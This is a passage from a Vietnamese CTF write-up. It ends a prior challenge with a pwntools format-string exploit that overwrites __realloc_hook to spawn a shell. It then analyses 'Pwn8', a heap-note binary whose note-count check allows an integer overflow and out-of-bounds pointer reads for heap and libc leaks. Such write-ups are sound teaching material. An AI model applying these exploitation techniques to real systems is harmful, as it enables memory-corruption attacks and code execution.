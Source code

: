 ```python
p2 = fmtstr_payload(6, {libc.sym['__realloc_hook']:libc.address+0xe3afe}, 0, write_size='short').replace(b'a', b'!')
io.sendline(p2)
io.sendline(b'%70000c')
io.interactive()
```

## Pwn8

Lại là một heapnote challenge khác. 😀

### Vulnerability

Đầu tiên người đụng được phép nhập số lượng note cần dùng, sau đó hàm accessor_create sẽ được gọi để tạo ra một list rỗng dùng để lưu trữ các con trỏ note.
```c
_DWORD *__fastcall accessor_create(int a1)
{
  _DWORD *s; // [rsp+18h] [rbp-8h]

  if ( a1 <= 0 )
    return 0LL;
  s = malloc(8 * (a1 + 1));
  if ( !s )
    return 0LL;
  memset(s, 0, 8 * (a1 + 1));
  *s = a1;
  return s;
}
```

Nhìn vào ta nghĩ ngay đến integer overflow, ví dụ nếu ta nhập MAX_INT vào thì biểu thức trong malloc sẽ có kết quả như sau:

malloc(8 * (MAX_INT + 1));

<=> malloc(8 * 0);

<=> malloc(0);

malloc(0); sẽ cho ta một chunk có size 0x20, nhưng size do ta nhập vào là MAX_INT thì vẫn được giữ nguyên, vậy có nghĩa là ta được tùy ý viết hay đọc những con trỏ vào phạm vi ngoài chunk size 0x20 đó, từ đây ta có lỗi out-of-bound.

Sau khi nhập size, chương trình cho ta 2 lựa chọn, write và read.

Hàm read kiểm tra index i mà ta nhập vào, nếu thỏa điều kiện (i >= 0 và i < n với n là số lượng note ta nhập lúc đầu) thì in ra data mà con trỏ tại index i trỏ tới. Ta thấy có thể sử dụng nó để leak heap hoặc libc.
```c
v4 = read_int("Index: ");
s = (char *)accessor_reader(v9, v4);
if ( s )
    v5 = s;
else
    v5 = "[undefined]";
puts(v5);

__int64 __fastcall accessor_reader(int *a1, int a2)
{
  __int64 result; // rax

  if ( a2 >= 0 && a2 < *a1 )
    result = *(_QWORD *)&a1[2 * a2 + 2];
  else
    result = 0LL;
  return result;
```